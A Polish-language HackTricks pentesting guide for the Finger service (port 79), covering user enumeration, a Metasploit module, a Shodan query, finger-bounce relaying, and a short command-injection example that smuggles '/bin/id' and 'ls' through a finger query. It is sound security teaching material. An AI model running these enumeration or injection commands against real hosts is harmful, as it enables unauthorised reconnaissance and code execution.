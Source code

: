 # 79 - Pentesting Finger

{{#include ../banners/hacktricks-training.md}}


## **Podstawowe informacje**

Program/usługa **Finger** jest wykorzystywana do uzyskiwania szczegółów o użytkownikach komputerów. Zazwyczaj dostarczane informacje obejmują **nazwę logowania użytkownika, pełne imię i nazwisko**, a w niektórych przypadkach dodatkowe szczegóły. Te dodatkowe informacje mogą obejmować lokalizację biura i numer telefonu (jeśli dostępne), czas, w którym użytkownik się zalogował, okres bezczynności (czas bezczynności), ostatni moment, w którym użytkownik przeczytał wiadomość e-mail, oraz zawartość plików planów i projektów użytkownika.

**Domyślny port:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Enumeracja**

### **Zbieranie banerów/Podstawowe połączenie**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **Enumaracja użytkowników**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
Alternatywnie możesz użyć **finger-user-enum** z [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), kilka przykładów:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap wykonuje skrypt przy użyciu domyślnych skryptów**

### Metasploit używa więcej sztuczek niż Nmap
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

- `port:79 USER`

## Wykonanie polecenia
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[Użyj systemu jako przekaźnika finger](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
{{#include ../banners/hacktricks-training.md}}
